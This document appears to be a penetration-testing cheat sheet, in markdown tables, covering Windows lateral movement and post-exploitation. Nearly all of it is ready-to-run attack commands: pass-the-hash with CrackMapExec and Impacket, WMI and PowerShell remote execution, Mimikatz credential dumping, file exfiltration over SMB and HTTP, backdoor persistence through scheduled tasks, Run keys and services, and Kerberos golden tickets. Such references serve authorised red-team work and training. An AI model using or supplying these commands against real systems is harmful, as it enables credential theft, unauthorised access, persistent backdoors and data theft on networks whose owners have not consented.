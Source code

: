 ## Lateral Movement Techniques

| Technique | Tool/Command | Example | Notes |
|-----------|--------------|---------|-------|
| **Pass the Hash** ||||
| PtH with CrackMapExec | CrackMapExec | `crackmapexec smb 192.168.1.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206e4aa04820ee3a93175` | Use hash instead of password |
| PtH with Impacket | Impacket | `psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206e4aa04820ee3a93175 administrator@192.168.1.100` | Execute commands via SMB |
| **WMI** ||||
| Remote execution | WMIexec | `wmiexec.py domain/user:password@192.168.1.100` | Execute commands via WMI |
| | PowerShell | `Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami > C:\output.txt" -ComputerName TARGETPC` | PowerShell-based WMI |
| **PowerShell Remoting** ||||
| PSRemoting | PowerShell | `Enter-PSSession -ComputerName TARGETPC` | Interactive PowerShell session |
| | PowerShell | `Invoke-Command -ComputerName TARGETPC -ScriptBlock {whoami}` | Execute remote command |
| **Other Methods** ||||
| RDP | RDesktop | `rdesktop -u user -p password 192.168.1.100` | GUI access (Linux client) |
| | Xfreerdp | `xfreerdp /u:user /p:password /v:192.168.1.100` | Better RDP client for Linux |
| Mimikatz | Mimikatz | `sekurlsa::logonpasswords` | Extract plaintext credentials |
| | PowerShell | `Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'` | PowerShell-based Mimikatz |

## Post Exploitation & Persistence

| Task | Tool/Command | Example | Notes |
|------|--------------|---------|-------|
| **Data Exfiltration** ||||
| SMB | SMBclient | `smbclient \\\\192.168.1.100\\share -U user%password` | Transfer via SMB |
| Web-based | SimpleHTTPServer | `python3 -m http.server 8000` | Host files on attacker machine |
| | Wget/cURL | `wget http://192.168.1.100:8000/file` | Download from victim |
| | PowerShell | `Invoke-WebRequest -Uri "http://192.168.1.100:8000/file" -OutFile "C:\file"` | PowerShell download |
| **Persistence** ||||
| Scheduled tasks | Schtasks | `schtasks /create /tn "MyTask" /tr "C:\evil.exe" /sc daily /ru "SYSTEM"` | Create persistent task |
| Registry | Reg | `reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\evil.exe"` | Run key persistence |
| Service | SC | `sc create "Backdoor" binpath= "cmd.exe /k C:\evil.exe"` | Create persistent service |
| Golden Ticket | Mimikatz | `kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-X-Y-Z /krbtgt:krbtgthash /ptt` | Create Kerberos golden ticket |
